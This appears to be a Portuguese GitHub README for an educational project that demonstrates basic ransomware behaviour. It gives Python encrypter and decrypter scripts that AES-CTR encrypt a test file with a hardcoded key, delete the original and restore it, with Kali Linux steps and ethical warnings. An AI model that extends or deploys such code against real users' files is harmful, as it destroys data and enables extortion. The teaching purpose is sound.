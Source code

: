 
# Documentação do Projeto: Análise de Encrypter e Decrypter em Python

Este projeto consiste em dois scripts desenvolvidos em Python (`encrypter.py` e `decrypter.py`) que realizam a criptografia e descriptografia de um arquivo de texto (`teste.txt`). Os scripts foram desenvolvidos em um ambiente **Kali Linux** utilizando o editor de texto **NANO** e têm como objetivo demonstrar, de forma educacional, o funcionamento básico de um ransomware. 

⚠️ **Aviso Importante**: Este projeto é apenas um exercício educacional para fins de estudo na área de **cybersecurity**. Qualquer prática envolvendo ransomware é ilegal e antiética se realizada sem o consentimento explícito do proprietário dos dados. Nunca utilize scripts como esses para atividades ilícitas.

---

## Arquivos do Projeto

O projeto é composto pelos seguintes arquivos:

- `encrypter.py`: Script que criptografa o arquivo `teste.txt`.
- `decrypter.py`: Script que descriptografa o arquivo `teste.txt.ransomwaretroll`.
- `teste.txt`: Arquivo de texto simples utilizado para fins de demonstração.

---

## 1. Estrutura dos Arquivos Python

### 1.1 encrypter.py

Este script é responsável por criptografar o conteúdo do arquivo `teste.txt` e gerar um novo arquivo criptografado chamado `teste.txt.ransomwaretroll`. Vamos detalhar cada passo:

```python
import os
import pyaes

# Abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")  # Abre o arquivo em modo de leitura binária
file_data = file.read()       # Lê o conteúdo do arquivo
file.close()                  # Fecha o arquivo

# Remover o arquivo original
os.remove(file_name)          # Deleta o arquivo original para que só exista o arquivo criptografado

# Chave de criptografia
key = b"testeransomwares"     # Chave usada para criptografar o arquivo (deve ter 16, 24 ou 32 bytes)
aes = pyaes.AESModeOfOperationCTR(key)  # Modo de operação AES em CTR (Counter)

# Criptografar o arquivo
crypto_data = aes.encrypt(file_data)  # Realiza a criptografia do conteúdo do arquivo

# Salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')   # Cria um novo arquivo para salvar os dados criptografados
new_file.write(crypto_data)           # Escreve os dados criptografados no novo arquivo
new_file.close()                      # Fecha o novo arquivo
```

### 1.2 decrypter.py

Este script realiza a descriptografia do arquivo criptografado gerado pelo `encrypter.py`, restaurando o arquivo original `teste.txt`.

```python
import os
import pyaes

# Abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")  # Abre o arquivo criptografado em modo de leitura binária
file_data = file.read()       # Lê o conteúdo criptografado do arquivo
file.close()                  # Fecha o arquivo

# Chave para descriptografia
key = b"testeransomwares"     # Mesma chave usada na criptografia para reverter o processo
aes = pyaes.AESModeOfOperationCTR(key)  # Modo de operação AES em CTR (Counter)
decrypt_data = aes.decrypt(file_data)   # Realiza a descriptografia dos dados

# Remover o arquivo criptografado
os.remove(file_name)          # Deleta o arquivo criptografado

# Criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")  # Cria um novo arquivo para restaurar os dados originais
new_file.write(decrypt_data)          # Escreve os dados descriptografados no novo arquivo
new_file.close()                      # Fecha o arquivo
```

---

## 2. Passo a Passo no Kali Linux

Para reproduzir este exercício em um ambiente Kali Linux, siga os passos abaixo:

1. **Criar o arquivo `teste.txt`**:
   - Abra o terminal e execute: `nano teste.txt`.
   - Insira algum texto de exemplo e salve o arquivo (`CTRL + O`, depois `ENTER` e `CTRL + X` para sair).

2. **Desenvolver os scripts `encrypter.py` e `decrypter.py`**:
   - Crie os arquivos `encrypter.py` e `decrypter.py` usando o NANO:
     ```bash
     nano encrypter.py
     ```
     ```bash
     nano decrypter.py
     ```
   - Copie e cole o código fornecido anteriormente em cada respectivo arquivo.

3. **Instalar a biblioteca `pyaes` se necessário**:
   - Caso a biblioteca `pyaes` não esteja instalada, utilize o comando:
     ```bash
     pip install pyaes
     ```

4. **Executar o script `encrypter.py`**:
   - No terminal, execute:
     ```bash
     python3 encrypter.py
     ```
   - Isso irá criptografar o arquivo `teste.txt` e gerar o arquivo `teste.txt.ransomwaretroll`.

5. **Executar o script `decrypter.py`**:
   - Para restaurar o arquivo original, execute:
     ```bash
     python3 decrypter.py
     ```

---

## 3. Considerações Finais

Este exercício ilustra de maneira simples como funcionam as operações de criptografia e descriptografia de dados. No entanto, o uso de ransomware para fins maliciosos é uma prática ilegal e antiética. Em um contexto real de **cybersecurity**, essas técnicas são usadas por profissionais para entender como proteger sistemas e desenvolver soluções de segurança.

Se você está estudando **cybersecurity**, entenda que o conhecimento deve ser usado para proteger e não para explorar vulnerabilidades.

---

## Recursos Adicionais

- [Documentação do PyAES](https://github.com/ricmoo/pyaes)
- [Práticas Éticas em Cybersecurity](https://www.eccouncil.org/)

---

**Nota**: Qualquer uso indevido do conhecimento apresentado nesta documentação será de total responsabilidade do usuário. O propósito é estritamente educacional.
